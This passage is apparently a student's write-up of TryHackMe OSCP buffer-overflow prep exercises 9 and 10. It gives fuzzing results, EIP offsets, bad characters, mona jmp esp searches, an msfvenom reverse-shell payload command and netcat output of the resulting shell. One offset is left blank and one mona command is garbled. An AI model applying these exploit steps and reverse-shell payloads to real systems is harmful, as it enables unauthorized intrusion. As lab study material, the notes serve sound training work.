C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

## OVERFLOW 9

### Fuzzing

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzzing crashed at 1600 bytes
```

### Finding Offset & overwriting EIP

- Generate Pattern of length 2000
- EIP VALUE = 35794234
- Exact match at offset 

### Finding Bad chars

- Find the bad chars using mona: `\x00\x04\x3e\x3f\xe1` 
- **Note:** \x3f is not bad char (but the answer in tryhackme required 5 chars)




- On rerunning the script, I found that `x3f` is bad. So, it also affected `\x40`. (This can be done by setting `\x3e` to some non-bad characters).
- So, if two bad characters are adjacent, it cannot be determined in a single test. We have to run the exploit multiple times to detect that!


### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpb "\x00\x04\x3e\x3f\xe1"`
- JMP ESP address: `625011c7`

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1234 EXITFUNC=thread -f py -b "\x00\x04\x3e\x3f\xe1"`
- Don't forget to add **nop sled**.
- Run the exploit & nc:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.26.89] 49333
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

## OVERFLOW 10

### Fuzzing

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzzing crashed at 600 bytes
```

### Finding Offset & overwriting EIP

- Generate Pattern of 1000
- EIP VALUE = 41397241
- Exact match at offset 537

### Finding Bad chars

- Find the bad chars using mona: `\x00\xa0\xad\xbe\xde\xef`




### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpb "!mona jmp -r esp -m essfunc.dll -cpb \x00\xa0\xad\xbe\xde\xef"`
- JMP ESP address: `625011af`

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1234 EXITFUNC=thread -f py -b "\x00\xa0\xad\xbe\xde\xef"`
- Don't forget to add **nop sled**.
- Run the exploit & nc:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.26.89] 49335
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

